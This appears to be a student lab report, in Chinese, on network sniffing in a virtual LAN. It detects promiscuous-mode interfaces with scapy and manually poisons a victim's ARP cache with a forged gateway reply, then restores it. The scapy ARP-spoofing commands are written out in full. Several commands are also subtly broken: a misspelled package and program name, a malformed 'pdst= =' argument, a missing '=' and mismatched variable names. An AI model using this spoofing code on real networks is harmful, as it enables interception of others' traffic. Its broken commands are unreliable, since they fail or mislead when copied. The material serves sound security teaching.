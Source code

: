 # 网络监听实验

## 网络拓扑

### 网络拓扑

![topology](img/topology.png)

### 节点信息

- 网关（Debian-gw）
  - MAC地址：08:00:27:ff:b8:28  /enp0s9
  - IP地址：172.16.111.1
- 攻击者（attacker-kali）
  - MAC地址：08:00:27:0e:95:b9
  - IP地址：172.16.111.141
- 受害者（victim-kali-1）
  - MAC地址：08:00:27:c5:c0:21 /eth0
  - IP地址：172.16.111.130

## 实验准备

### 安装scapy

```bash
# 安装 python3
sudo apt update
sudo apt install python3 python3-pip
# 安装scrapy
pip3 install scrapy[complete]
```

![scapy_install](img/scapy_install.png)

## 实验过程

### 实验一：检测局域网中的异常终端

```bash
# 在受害者主机上检查网卡的混杂模式是否启用
ip link show eth0
```

![ip_link _show](img/ip_link _show.png)

```bash
# 在攻击者主机开启scapy 
scapy
# 直接使用scapy开启后，对于下一步的操作，会出现：Operation not permitted 的报错，提示权限有问题
# 重新尝试使用以下口令开启scapy
sudo scrpy
```

![start_scapy](img/start_scapy.png)

```bash
# 在scapy终端输入以下代码回车执行
pkt = promiscping("172.16.111.130")
```

![scapy_pkt](img/scapy_pkt.png)

```bash
# 回到受害者主机开启网卡的混杂模式
# 注意!上述输出结果应该没有PROMISC 字符串
# 手动开启该网卡混杂模式
sudo ip link set eth0 promisc on
# 此时的输出结果会多出来 PROMISC
ip link show eth0
```

![set_promisc](img/set_promisc.png)

![ip_link_show_promisc](img/ip_link_show_promisc.png)

```bash
# 回到攻击者主机的scapy交互式终端继续执行命令
# 观察两次输出结果的不同
pkt = promiscping("172.16.111.130")
```

![pkt_difference](img/pkt_difference.png)

受害者主机没有开启混杂模式时，用scapy的promiscping进行检测，可以看到有一个packet被记录下来，但是没有IP与MAC信息

在受害者主机开启混杂模式后，进行相同的检测可以看到相应的MAC地址与IP信息

promiscping命令：

- 混杂模式：接受所有经过网卡的数据包，包括不是发给本机的包，即不验证MAC地址
- 普通模式：网卡只接受发给本机的包

```bash
# 在受害者主机，手动关闭网卡的混杂模式
sudo ip link set promisc off
```

![set_promisc_off](img/set_promisc_off.png)

### 实验二：手工单步“毒化”目标主机的ARP缓存

以下代码均在攻击者主机 scapy 终端完成

```bash
# 获取当前局域网的网关MAC地址
# 构造一个ARP请求
arpboradcast = Ether(dst = "ff:ff:ff:ff:ff:ff")/ARP(op = 0,pdst= ="172.16.111.1")
#查看构造好的ARP报文请求
arpboradcast.show()
```

![arpbroadcast](img/arpbroadcast.png)

```bash
# 伪造一个网关的ARP响应包
# 攻击者主机准备发给受害者主机 IP：172.16.111.130
# ARP响应的目的MAC地址设置为攻击者主机的MAC地址 08:00:27:0e:95:b9
arpspoofed = Ether()/ARP(op=2,psrc="172.16.111.1",pdst="172.16.111.130",hwdst="08:00:27:0e:95:b9")

# 发送上述伪造的ARP响应数据包
sendp(arpspoofed)
```

![arpspoofed](img/arpspoofed.png)

此时，在受害者主机上查看ARP缓存，网关的MAC地址已被替换为攻击者主机的MAC地址

```bash
ip neigh
```

![replace_mac](img/replace_mac.png)

继续回到攻击者主机scapy终端

```bash
# 回复受害者主机的ARP缓存记录
## 伪装网关给受害者发送ARP响应
restoreptk1 = Ether()/ARP(op=2,psrc="172.16.111.1",hwsrc="08:00:27:ff:b8:28",pdst="172.16.111.130",hwdst"08:00:27:c5:c0:21")
sendp(restorepkt1,count=100,inter=0.2)
```

![restoreptk](img/restoreptk.png)

此时，到受害者主机上准备刷新网关ARP记录

```bash
# 在受害者主机上尝试ping网关
ping 172.16.111.1
# 等ARP缓存刷新成功，退出ping
# 查看受害者主机上ARP缓存，已恢复正常网关ARP记录
ip neigh
```

![recover_gw](img/recover_gw.png)

## 实验中遇到的问题及解决方案

1.参考了之前师哥师姐的作业

2.在给kali-attacker开启内部网络intnet1网卡后查看其ip地址表，内部网络对应的网卡仍然没有分配ip地址

解决方法:

```
sudo vim /etc/network/interfaces
```

3.问题3：伪造的网关ARP相应包发不出去

解决方法： 在构造ARP相应包时添加数据链路层Ether()

以上两条参考了同学成功的经验

4.直接使用scapy开启后，对于下一步的操作，会出现：Operation not permitted 的报错，提示权限有问题，重新尝试使用以下口令开启scapy：sudo scrpy

## 参考资料

师哥/师姐作业：

https://github.com/CUCCS/2021-ns-public-Dot1029/tree/chap0x04/chap0x04

[网络安全电子教材]([实验 · 网络安全 (c4pr1c3.github.io)](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html))

[kali-linux配置nat模式连接网络_Ahuuua的博客-CSDN博客_kalinat模式怎么联网](https://blog.csdn.net/Ahuuua/article/details/108575907)
